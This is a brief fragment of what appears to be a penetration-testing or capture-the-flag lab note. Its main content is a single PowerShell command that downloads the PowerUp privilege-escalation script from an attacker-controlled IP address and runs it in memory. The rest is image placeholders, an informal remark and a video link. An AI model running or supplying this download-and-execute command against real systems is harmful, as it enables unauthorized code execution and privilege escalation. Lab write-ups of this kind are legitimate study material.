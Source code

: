 
```
IEX(New-Object Net.WebClient).downloadString('http://10.10.16.3:8080/PowerUp.ps1')
```
![[Pasted image 20231123124118.png]]
![[Pasted image 20231123124216.png]]

The subscription got over will get back soooooooooooooooooooooooon
https://www.youtube.com/watch?v=QPeWiL2N8xc


